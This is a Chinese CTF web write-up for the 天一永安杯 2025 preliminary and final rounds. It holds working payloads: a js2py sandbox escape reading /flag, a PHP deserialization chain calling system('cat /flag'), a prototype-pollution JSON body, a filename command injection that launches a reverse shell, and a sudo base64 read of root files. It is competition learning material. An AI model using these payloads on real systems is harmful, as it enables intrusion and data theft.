# 天一永安杯 2025 Web Writeup


# 初赛

## anonymity

web1， web 手何苦为难 web 手
查看源代码，提示 svn 泄露


只泄露了这一个文件
```
/.svn/wc.db
```

而且泄露的不是数据库文件，这几段只告知了创表相关的字段，所以 svn 泄露了什么
最后结束师傅们讨论了 SQL 注入，svn 泄露的几段也指向 SQL 注入，但貌似没有师傅注入成功（如有麻烦告知一下 Payload，真没测出怎么注的）

## EzPython_3(一血)
源码如下
```
import pyjsparser.parser
from flask import Flask, render_template, request, redirect, url_for, session
import base64, random, secrets, string, bcrypt, js2py

app = Flask(__name__)
pyjsparser.parser.ENABLE_PYIMPORT=False

users = {}
users_hash = {}
salt = bcrypt.gensalt()
app.secret_key = secrets.token_bytes(16)

admin = b'admin'
admin_password = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(32))
print(admin_password)

h = bcrypt.hashpw(admin, salt)
users[admin] = admin_password.encode()
users_hash[h] = bcrypt.hashpw(admin_password.encode(), salt)
print(users, users_hash)


@app.route('/')
def home():
    return redirect(url_for('login'))


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username: bytes = base64.b64decode(request.form['username'])
        password: bytes = base64.b64decode(request.form['password'])
        if bcrypt.hashpw(username, salt) in users_hash and users_hash[bcrypt.hashpw(username, salt)] == bcrypt.hashpw(
                password, salt):

            if (bcrypt.hashpw(username, salt) == bcrypt.hashpw(b"admin", salt) and users_hash[
                bcrypt.hashpw(username, salt)] == users_hash[bcrypt.hashpw(username, salt)] == users_hash[
                bcrypt.hashpw(b"admin", salt)]):
                session['is_admin'] = True
                return redirect(url_for('admin'))
            return f"Welcome, {username.decode()}!"
        else:
            return "Invalid username or password!"
    return render_template('login.html')


@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username: bytes = base64.b64decode(request.form['username'])
        password: bytes = base64.b64decode(request.form['password'])
        if username in users:
            return "Username already exists!"
        if len(username) > 15:
            return "username is too long"

        users[username] = password
        users_hash[bcrypt.hashpw(username, salt)] = bcrypt.hashpw(password, salt)
        print(users, users_hash)

        return f"User {username.decode()} registered successfully!"
    return render_template('register.html')


@app.route('/admin', methods=['GET', 'POST'])
def admin():
    if session.get('is_admin'):
        if request.method == 'POST':
            js = request.form['jscode']
            if len(js) >155:
                return "too long"
            try:
                result=js2py.eval_js(js)
                return f"ok,{result}"
            except Exception as e:
                return f"An error occurred: {str(e)}"
        else:
            return render_template('admin.html')
    else:
        return redirect(url_for('login'))


if __name__ == '__main__':
    app.run()
```
逻辑一眼就能看出来，总共也就四个路由 `/、/register、/login、/admin`，要访问的目标是 admin 路由，要绕过鉴权 `session.get('is_admin')`
login 路由，`bcrypt.hashpw(username, salt) == bcrypt.hashpw(b"admin", salt)` 将同一个 `salt` 对两个明文做 `bcrypt`，等价于 `username == b"admin"`

```
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username: bytes = base64.b64decode(request.form['username'])
        password: bytes = base64.b64decode(request.form['password'])
        if bcrypt.hashpw(username, salt) in users_hash and users_hash[bcrypt.hashpw(username, salt)] == bcrypt.hashpw(
                password, salt):

            if (bcrypt.hashpw(username, salt) == bcrypt.hashpw(b"admin", salt) and users_hash[
                bcrypt.hashpw(username, salt)] == users_hash[bcrypt.hashpw(username, salt)] == users_hash[
                bcrypt.hashpw(b"admin", salt)]):
                session['is_admin'] = True
                return redirect(url_for('admin'))
            return f"Welcome, {username.decode()}!"
        else:
            return "Invalid username or password!"
    return render_template('login.html')
```
bcrypt 的已知特性，72 字节截断，超过 72 字节的输入会被忽略，但这不帮助弄到和 `b"admin"` 相等的哈希；NUL 截断，空字节注入是有可能，我对其进行测试
```
admin\x00
admin\x00A
admin\x00admin
admin\x00\x00
```
fuzz 出来了

密码随意

```
username=YWRtaW4AYWRtaW4=&password=UGFzc3cwcmQh
```

拿到 session

进到 /admin 路由

```
@app.route('/admin', methods=['GET', 'POST'])
def admin():
    if session.get('is_admin'):
        if request.method == 'POST':
            js = request.form['jscode']
            if len(js) >155:
                return "too long"
            try:
                result=js2py.eval_js(js)
                return f"ok,{result}"
            except Exception as e:
                return f"An error occurred: {str(e)}"
        else:
            return render_template('admin.html')
    else:
        return redirect(url_for('login'))
```
关键代码，这里是要做一个变量覆盖、模板注入、还是直接就命令执行？结果会直接嵌在 {result} 中返回响应包
```
if len(js) >155:
	return "too long"
try:
	result=js2py.eval_js(js)
	return f"ok,{result}"
```
js2py 只能在非 python3.12 版本下运行，我选择 3.10 进行测试。这个库更多用于爬虫，检索一下相关文章，关于这个库的信息比较少，发现去年爆出一则 CVE 漏洞，主角就是 js2py.eval_js()，竟然能直接 rce：[Marven11的漏洞文章](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

`CVE` 漏洞详细给了一条链子

```
let cmd = "id";let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;let obj = a(a(a,"__class__"), "__base__");function findpopen(o) {let result;for(let i in o.__subclasses__()) {let item = o.__subclasses__()[i];if(item.__module__ == "subprocess" && item.__name__ == "Popen") {return item}if(item.__name__ != "type" && (result = findpopen(item))) {return result}}};let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();console.log(result);result
```
RCE! 代码形式于要求完全一致，正中靶心

但问题来了，仅有资料的 payload 长度太大，无法满足低于 155 的要求，需要找到一条更短的链子绕过
### 分析
这 poc 拿来也看不懂如何实现的，先顺一顺逻辑
js2py/evaljs.py::eval() 将传入的 payload 再套一层 PyJsEvalResult = eval(%s)

随后跟进 execute()，在 195 行调用 js2py/translators/translator.py::translate_js()

js2py/translators/translating_nodes.py::trans()  从全局变量获取对应节点，随后 `node(**ele)`调用每个相关节点，这些节点大都也是处理 JS 为 Python 代码关键节点 `Program`会遍历代码的内容并添加变量与函数，最终转换成`Python`代码

如调试时 Payload 最终解析为

```
var.registers([])
def PyJs_LONG_0_(var=var):
return var.get('eval')(Js('传入的代码'))
var.put('PyJsEvalResult', PyJs_LONG_0_())
```
`var.get('eval')` 取到 JS 的内建 `eval` 的 Py 包装，然后会将传入的字符串交给 JS 引擎再解析一次
最简单的利用就是直接通过 `pyimport` 进行导入模块，它是 js2py 库中一个特殊的关键字，它允许在 JS 代码中直接导入并使用 Python 模块

```
pyimport os;var current_dir = os.getcwd();current_dir;
```

题目最上面定义了 `pyjsparser.parser.ENABLE_PYIMPORT = False` ，这阻止了显式`pyimport`语句，不能在用它导入模块
此时在回到最开始的 poc，看看 Marven11 师傅这条利用链是如何实现绕过的


关于 `js2py/constructors/jsobject.py` 里 `Object.getOwnPropertyNames` 我的理解是这样的，`getOwnPropertyNames` 返回一个 Python 对象，Js() 前面并不识别它，于是走到 `py_wrap()` 生成了 `PyObjectWrapper`
```
def getOwnPropertyNames(obj):
	if not obj.is_object():
		raise MakeError(
			'TypeError',
			'Object.getOwnPropertyDescriptor called on non-object')
	return obj.own.keys()

def py_wrap(py):
    if isinstance(py, (FunctionType, BuiltinFunctionType, MethodType,
                       BuiltinMethodType, dict, int, str, bool, float, list,
                       tuple, long, basestring)) or py is None:
        return HJs(py)
    return PyObjectWrapper(py)

def Js(val, Clamped=False):
    '''Converts Py type to PyJs type'''
    if isinstance(val, PyJs):
        return val
    elif val is None:
        return undefined
    elif isinstance(val, basestring):
        return PyJsString(val, StringPrototype)
    elif isinstance(val, bool):
        return true if val else false
    elif isinstance(val, float) or isinstance(val, int) or isinstance(
            val, long) or (NUMPY_AVAILABLE and isinstance(
                val,
                (numpy.int8, numpy.uint8, numpy.int16, numpy.uint16,
                 numpy.int32, numpy.uint32, numpy.float32, numpy.float64))):
        # This is supposed to speed things up. may not be the case
        if val in NUM_BANK:
            return NUM_BANK[val]
        return PyJsNumber(float(val), NumberPrototype)
    ...
    else:  # try to convert to js object
        return py_wrap(val)
```
在调用 `Object.getOwnPropertyNames()` 时里面传 `[]、{}`（传入非对象参数会报错）， 能拿到 `PyObjectWrapper(dict_keys(xxx))` ，于是 JS 层就能访问到 python 属性诸如 `__class__`、`__base__`、`__subclasses__`等，达成了沙盒逃逸
```
import js2py
import pyjsparser
pyjsparser.parser.ENABLE_PYIMPORT = False

code = """
a = Object.getOwnPropertyNames({})
b = Object.getOwnPropertyNames([]).__class__.__base__
console.log(a, b)
"""

js2py.eval_js(code)
```

所以 poc 的 payload 很好理解了，通过 `Object.getOwnPropertyNames({}).__class__.__base__` 拿到 python `object`类，再写一个递归找 `subprocess.Popen` 函数，`communicate()` 拿回显，这被放弃了，太长

Python 沙箱逃逸最常见的就是 帧、闭包、函数全局字典拿 builtins，或者打 pickle 链，但也会非常长，也不一定拿到相关的模块

发现在 Python 里有这样一种类型 `import loader`（如 `zipimporter`、`_frozen_importlib_external` 家族等），这些 `loader` 的实例常带有 `load_module` 之类的入口，而在 `object`基类`.__subclasses__()` 里总带着 `load_module` 属性的 loader 类

于是保持 `Object.getOwnPropertyNames({}).__class__.__base__;` 不变，向上找 `load_module`，遇到第一个带 `load_module` 的就 break，用它直接加载内置模块完成读文件/列目录。

**最终 payload**

读当前工作目录

```
o=Object.getOwnPropertyNames({}).__class__.__base__;s=o.__subclasses__();for(i in s){b=s[i];if(b.load_module)break}b.load_module("os").getcwd() #len(143)
```

读目录

```
o=Object.getOwnPropertyNames({}).__class__.__base__;s=o.__subclasses__();for(i in s){b=s[i];if(b.load_module)break}b.load_module("posix").listdir("/")  #len(150)
o=Object.getOwnPropertyNames({}).__class__.__base__;s=o.__subclasses__();for(i in s){b=s[i];if(b.load_module)break}b.load_module("os").listdir("/")  #len(147)
```


读文件
```
for(i in(s=(o=Object.getOwnPropertyNames({}).__class__.__base__).__subclasses__()))if(b=s[i],b.load_module)break;b.load_module("_io").open("/flag").read()  #len(154)
for(i in(s=(o=Object.getOwnPropertyNames({}).__class__.__base__).__subclasses__()))if(b=s[i],b.load_module)break;b.load_module("io").open("/flag").read()  #len(153)
# DASCTF{23409102560085073674496300485198}
```


参考：
https://xz.aliyun.com/news/14369
https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/


# 决赛

## easyUploads
文件读取，拿到源码
```
show.php?file=/etc/passwd
```

```
#show.php
<?php
if (isset($_GET['file'])) {
    $imagePath = $_GET['file'];
    if (preg_match("/(\/flag|\/fl|\/f|sort|index\.php|show\.php|\.\.\/|\.\/|\/)/i", $imagePath)){
        $imagePath = 'img/1.png';
    }
}
$imageData = file_get_contents($imagePath);

if ($imageData !== false) {

    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mimeType = finfo_buffer($finfo, $imageData);
    finfo_close($finfo);

    header("Content-Type: $mimeType");

    echo $imageData;
    exit;
} else {
    echo "Image cannot be read.";
}
```

```
#index.php
<?php
// 启动 session
session_start();

Class Dog {
    public $bone;
    public $meat;
    public $beef;
    public $candy;
    public function __invoke() {
        if ((md5($this->meat) == md5($this->beef)) && ($this->meat != $this->beef)) {
            return $this->candy->flag;
        }
    }

    public function __toString() {
        $function = $this->bone;
        return $function();
    }
}

CLass mouse {
    public $rice;

    public function __get($key) {
        @eval($this->rice);
    }
}

class Cat {
    public $fish;
    public function __construct() {
    }

    public function __destruct() {
        echo $this->fish;
    }
}

// 处理文件上传
$message = '';
$success = false;
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES['uploaded_file'])) {
        $uploadDir = __DIR__ . '/uploads/';
        $uploadedFile = $uploadDir . basename($_FILES['uploaded_file']['name']);

        if (move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $uploadedFile)) {
            $message = '上传成功！';
            $success = true;

            $fileContent = file_get_contents($uploadedFile);
            @unlink($uploadedFile);

            @unserialize($fileContent);
            $fileContent = "";

            // 设置 session，表示上传成功
            $_SESSION['upload_success'] = true;

            // 重定向，防止刷新页面时重复提交表单
            header("Location: " . $_SERVER['PHP_SELF']);
            echo $message;
            exit();
        }
    }
}
?>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>壁纸上传网站</title>
    <style>
        body {
            background: linear-gradient(135deg, #000000, #ffffff);
            font-family: Arial, sans-serif;
            color: #333;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .container {
            text-align: center;
            background: rgba(255, 255, 255, 0.9);
            padding: 30px;
            border-radius: 10px;
            box-shadow: 0 0 15px rgba(0,0,0,0.2);
            width: 400px;
        }
        h1 {
            font-size: 24px;
            margin-bottom: 20px;
            color: #000;
        }
        .message {
            font-size: 18px;
            color: green;
            margin-bottom: 20px;
        }
        input[type="file"] {
            margin: 20px 0;
            font-size: 16px;
        }
        input[type="submit"] {
            background-color: #333;
            color: #fff;
            border: none;
            padding: 10px 20px;
            cursor: pointer;
            border-radius: 5px;
        }
        input[type="submit"]:hover {
            background-color: #555;
        }
        .images {
            margin-top: 40px;
        }
        .images-title {
            font-size: 20px;
            font-weight: bold;
            margin-bottom: 20px;
            color: #444;
        }
        .image-item {
            display: inline-block;
            margin: 0 10px;
        }
        .image-item img {
            width: 150px;
            height: 150px;
            border-radius: 10px;
            border: 2px solid #333;
            transition: transform 0.3s;
        }
        .image-item img:hover {
            transform: scale(1.1);
        }
        .image-item a {
            display: block;
            margin-top: 10px;
            color: #333;
            text-decoration: none;
            font-weight: bold;
        }
        .image-item a:hover {
            color: #555;
        }
    </style>
    <script>
        function showSuccessAlert() {
            alert("文件上传成功！");
        }

        // 页面加载后检查是否上传成功
        window.onload = function() {
            <?php if (isset($_SESSION['upload_success']) && $_SESSION['upload_success']) : ?>
            showSuccessAlert();
            <?php
            // 清除 session 中的上传成功状态
            unset($_SESSION['upload_success']);
            endif;
            ?>
        }
    </script>
</head>
<body>
<div class="container">
    <h1>壁纸上传网站</h1>
    <?php if (!empty($message)) : ?>
        <div class="message"><?php echo $message; ?></div>
    <?php endif; ?>
    <form action="" method="post" enctype="multipart/form-data">
        <input type="file" name="uploaded_file" required>
        <br>
        <input type="submit" value="上传">
    </form>

    <div class="images">
        <div class="images-title">精美壁纸如下：</div>

        <!-- 图片 1 -->
        <div class="image-item">
            
            <a href="/show.php?file=img/1.png" target="_blank">壁纸1</a>
        </div>

        <!-- 图片 2 -->
        <div class="image-item">
            
            <a href="/show.php?file=img/2.png" target="_blank">壁纸2</a>
        </div>


    </div>
</div>
</body>
</html>
```
上传文件后会将文件内容反序列化
exp
```
<?php  
Class Dog {  
    public $bone;  
    public $meat;  
    public $beef;  
    public $candy;  
}  
  
CLass mouse {  
    public $rice;  
}  
  
class Cat {  
    public $fish;  
    public function __construct($fish) {  
        $this->fish = $fish;  
    }}  
$m = new mouse();  
$m -> rice = "system('cat /flag');";  
$d = new Dog();  
$d -> meat = '240610708';  
$d -> beef = 'QNKCDZO';  
$d -> bone = $d;  
$d -> candy = $m;  
$c = new Cat($d);  
echo (serialize($c));
//O:3:"Cat":1:{s:4:"fish";O:3:"Dog":4:{s:4:"bone";r:2;s:4:"meat";s:9:"240610708";s:4:"beef";s:7:"QNKCDZO";s:5:"candy";O:5:"mouse":1:{s:4:"rice";s:20:"system('cat /flag');";}}}
```
上传拿到 FLAG


## Easy_shop
队友看的这题做完忘截图，比赛时好像赛方直接提示了读 `app.js` 拿源码，赛后根据源码写了个靶机演示一下完整攻击链

一看肯定要买 FLAG，但 MONEY 不够

通过购买负数的形式增加余额
```
/buy/2?quantity=-100
```

再购买 FLAG，提示了一个路由

访问路由

发现存在任意文件读取漏洞
```
fileName=../../../etc/passwd
```

读取 FLAG 提示“你还真读FLAG啊”，于是尝试读源码
```
fileName=../server.js
```

源码
```
const express = require('express');
const app = express();
const fs = require('fs');
const port = 3000;
const bodyParser = require('body-parser');

app.set('view engine', 'ejs');
app.use(express.static('public'));
app.use(bodyParser.urlencoded({ extended: true }));

let money = 1000;
const initialMoney = 1000;
let message = '';
const products = [
  { name: '帽子', price: 10 },
  { name: '棒球', price: 15 },
  { name: 'iphone', price: 150 },
  { name: 'flag', price: 1500 },
];

app.get('/showflag', (req, res) => {
  res.render('readfile');
});

app.post('/readfile', (req, res) => {
  const fileName = req.body.fileName;

  if (fileName.includes("fl")) {
    return res.status(200).send('你还真读flag啊');
  }
  fs.readFile("/app/public/"+fileName, 'utf8', (err, data) => {
    if (err) {
      res.status(500).send('Error reading the file');
    } else {
      res.send(data);
    }
  });
});


app.get('/', (req, res) => {
  res.render('index', { products, money, message });
});

app.get('/buy/:productIndex', (req, res) => {
  const productIndex = req.params.productIndex;
  let quantity = req.query.quantity || 1;

  if (productIndex === '3') {
    quantity = Math.abs(quantity);
    if (products[productIndex] && money >= products[productIndex].price * quantity) {
      money -= products[productIndex].price * quantity;
      message = `购买flag成功啦！给你/showflag这个路由，听说那里面有flag`;
  
      
      res.render('index', { products, money, message, showAlert: true });
    } else {
      message = 'flag很贵的';
      res.redirect('/');
    }
  }else{
    if (products[productIndex] && money >= products[productIndex].price * quantity) {
      money -= products[productIndex].price * quantity;
      message = `成功购买了 ${quantity} 件 "${products[productIndex].name}"！`;

      res.render('index', { products, money, message, showAlert: true });
    } else {
      message = '购买失败，钱不够啊老铁.';
      res.redirect('/');
    }
  }
});


function copy(object1, object2) {
  if (typeof object1 !== 'object' || object1 === null ||
      typeof object2 !== 'object' || object2 === null) {
    return;
  }

  for (let key in object2) {
    if (
      typeof object2[key] === 'object' &&
      object2[key] !== null &&
      typeof object1[key] === 'object' &&
      object1[key] !== null
    ) {
      copy(object1[key], object2[key]);
    } else {
      object1[key] = object2[key];
    }
  }
}


app.post('/getflag', require('body-parser').json(), function (req, res, next) {
  res.type('html');
  const flagFilePath = '/flag';
  let flag = '';
  fs.readFile(flagFilePath, 'utf8', (err, data) => {
    if (err) {
      console.error(`无法读取文件: ${flagFilePath}`);
    } else {
      flag = data;
      var secert = {};
      var sess = req.session;
      let user = {};
      copy(user, req.body);
      if (secert.testattack === 'admin') {
        res.end(flag);

      } else {
        return res.send("no,no,no!");
      }
    }
  });
});


app.get('/reset', (req, res) => {
  money = initialMoney;
  message = '';
  res.redirect('/');
});

app.listen(port, () => {
  console.log(`Server is running on http://localhost:${port}`);
});
```
`quantity` 什么也没处理就乘，导致了逻辑漏洞
```
money -= products[productIndex].price * quantity;
```
接下来就是最基础的原型链污染，都是基于 `Object`的原型，直接污染即可
```
{"__proto__":{"testattack":"admin"}}
```



## img2base64
复现，源码如下
```
import os
import re
import subprocess
from flask import Flask, request, render_template, jsonify

app = Flask(__name__)

UPLOAD_FOLDER = 'uploads/'
if not os.path.exists(UPLOAD_FOLDER):
    os.makedirs(UPLOAD_FOLDER)

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
def checkname(filename):
    ILLEGAL_CHARACTERS = r"[*=&\"%;<>iashto!@()\{\}\[\]_^`\'~\\#]"
    noip = re.compile(r"\d+\.\d+")
    if re.search(ILLEGAL_CHARACTERS, filename):
        return False
    if ".." in filename :
        return False
    if(noip.findall(filename)):
        return False


@app.route('/')
def upload_form():
    return render_template('upload.html')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({"error": "No file part in the request"}), 400

    file = request.files['file']
    if file.filename == '':
        return jsonify({"error": "No file selected"}), 400
    if(checkname(file.filename)==False):
        return jsonify({"error": "Not hacking!"}), 500
    if file:
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], file.filename)
        file.save(file_path)
        result = subprocess.run(f"cat {file_path} | base64", shell=True, capture_output=True, text=True)
        encoded_string = result.stdout.strip()
        return jsonify({
            "filename": file.filename,
            "base64": encoded_string
        })

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```
`Python subprocess.run()` 命令执行，程序会先进行文件上传，对上传的内容不进行任何检测，直接保存至 `uploads/`目录下，对上传 `filename`检测拼接 `uploads/+filename`传给 `run` 进行命令执行
```
@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({"error": "No file part in the request"}), 400
    file = request.files['file']
    if file.filename == '':
        return jsonify({"error": "No file selected"}), 400
    if(checkname(file.filename)==False):
        return jsonify({"error": "Not hacking!"}), 500
    if file:
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], file.filename)
        file.save(file_path)
        result = subprocess.run(f"cat {file_path} | base64", shell=True, capture_output=True, text=True)
        encoded_string = result.stdout.strip()
        return jsonify({
            "filename": file.filename,
            "base64": encoded_string
        })
```
WAF 过滤了 `* = & " % ; < > i a s h t o ! @ ( ) { } [ ] _ ^ ' ~  \ # `，没有过滤 `|`，用管道符插入 `RCE` 
```
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
def checkname(filename):
    ILLEGAL_CHARACTERS = r"[*=&\"%;<>iashto!@()\{\}\[\]_^`\'~\\#]"
    noip = re.compile(r"\d+\.\d+")
    if re.search(ILLEGAL_CHARACTERS, filename):
        return False
    if ".." in filename :
        return False
    if(noip.findall(filename)):
        return False
```
执行一下 `pwd` 试试，`||`前错后执行，cat 尝试读目录必定报错
```
cat .||pwd
```

`i a s h t o ..`这些字符不能用，无法直接在 `filename`看目录、查文件，但之前看到文件内容是完全不做检测的，`subprocess.run`设置 `shell=true`直接启动 `shell` 环境，且变量可用，`$0`是 Shell 的位置参数

文件内写入反弹 shell

在通过管道符执行，完成反弹 `shell`

```
cat uploads/111|$0|base64
```

比赛环境内网 FLAG 为 ROOT 权限，`sudo -l`有 `base64`，用 base64 读取 FLAG 文件即可，赛后就不模拟这个环境了
```
sudo base64 "$LFILE" | base64 --decode
```



## genshop
源码
```
from flask import Flask, request, send_file
import socket

app = Flask("webserver")


@app.route('/', methods=["GET"])
def index():
    return send_file(__file__)


@app.route('/nc', methods=["POST"])
def nc():
    try:
        dstport = int(request.form['port'])
        data = request.form['data']
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(1)
        s.connect(('127.0.0.1', dstport))
        s.send(data.encode())
        recvdata = b''
        while True:
            chunk = s.recv(2048)
            if not chunk.strip():
                break
            else:
                recvdata += chunk
                continue
        return recvdata
    except Exception as e:
        return str(e)


app.run(host="0.0.0.0", port=8080, threaded=True)
```
提供了 `socket` 连接服务，被限制访问在 127.0.0.1，应该没法直接反弹 Shell，可能题目内部设置了别的服务，内网探测之后组合利用漏洞，推测思路是这样，但没环境不好复现了


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/%E5%AE%81%E6%B3%A2%E8%B5%9B-2025-web-writeup/  

